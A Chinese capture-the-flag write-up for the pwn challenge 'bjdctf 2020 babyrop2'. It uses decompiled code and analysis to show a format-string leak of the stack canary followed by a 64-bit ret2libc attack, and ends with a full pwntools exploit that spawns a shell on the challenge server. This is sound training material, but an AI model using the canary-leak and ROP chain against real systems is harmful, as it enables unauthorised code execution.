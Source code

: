 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop2
date: 2022-3-28 15:50:25
permalink: /pages/2e1547494524d19f
tags: 
  - buuctf
  - pwn
  - FormatString
  - StackOverflow
---
```


# bjdctf 2020 babyrop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babyrop2/bjdctf_2020_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  gift();
  vuln();
  return 0;
}
```

init函数如下

```c
unsigned __int64 init()
{
  unsigned __int64 v0; // ST08_8

  v0 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Can u return to libc ?");
  puts("Try u best!");
  return __readfsqword(0x28u) ^ v0;
}
```

gift函数如下

```c
unsigned __int64 gift()
{
  char format; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("I'll give u some gift to help u!");
  __isoc99_scanf("%6s", &format);
  printf(&format);
  puts(byte_400A05);
  fflush(0LL);
  return __readfsqword(0x28u) ^ v2;
}
```

vuln函数如下

```c
unsigned __int64 vuln()
{
  char buf; // [rsp+0h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Pull up your sword and tell me u story!");
  read(0, &buf, 0x64uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

部分函数表如下

![bjdctf_2020_babyrop2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/bjdctf_2020_babyrop2_1.png)

## 思路分析

1. 目前信息：
   - `vuln`函数可溢出
   - `gift`函数有格式化字符串漏洞
   - 无`system`、`/bin/sh`与后门函数
   - Canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位`ret2libc`，但需要绕过`Canary`防护，这里`gift`函数中的格式化字符串漏洞可以帮助我们泄漏`Canary`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babyrop2/bjdctf_2020_babyrop2'
io = remote('node4.buuoj.cn', 26351)
# io = process(pwnfile)
elf = ELF(pwnfile)
format = b'%7$p\x00'
io.sendlineafter('give u some gift to help u!\n', format)
Canary = int(io.recvuntil('\n', drop=True), 16) # 泄漏Canary
success('Canary:'+hex(Canary))
padding = 0x20+8
libc_start_main_addr = elf.got['__libc_start_main']
puts_addr = elf.plt['puts']
vuln_addr = elf.symbols['vuln']
pop_rdi_ret = 0x400993
payload = flat(['a'*(padding-0x10), Canary, 'a'*8, pop_rdi_ret,libc_start_main_addr, puts_addr, vuln_addr])
io.sendlineafter('me u story!\n', payload)
leak_libc_start_main_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success('leak_libc_start_main_addr:'+hex(leak_libc_start_main_addr))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*(padding-0x10), Canary, 'a'*8,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('u story!\n', payload)
io.interactive()
```